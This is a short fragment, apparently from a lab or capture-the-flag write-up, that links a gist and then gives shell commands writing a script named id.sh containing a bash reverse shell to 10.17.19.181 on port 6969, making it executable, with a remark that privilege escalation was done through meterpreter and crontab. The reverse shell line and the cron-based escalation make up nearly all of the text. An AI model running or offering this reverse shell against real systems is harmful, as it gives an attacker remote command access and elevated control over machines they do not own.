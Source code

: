 

https://gist.github.com/0xRar/70aae102af56495b7be51486d363c4bd


echo '#!/bin/bash' > id.sh
echo 'bash -i >& /dev/tcp/10.17.19.181/6969 0>&1' >> id.sh
chmod +x id.sh

I did it via meterpreter and crontab privsec
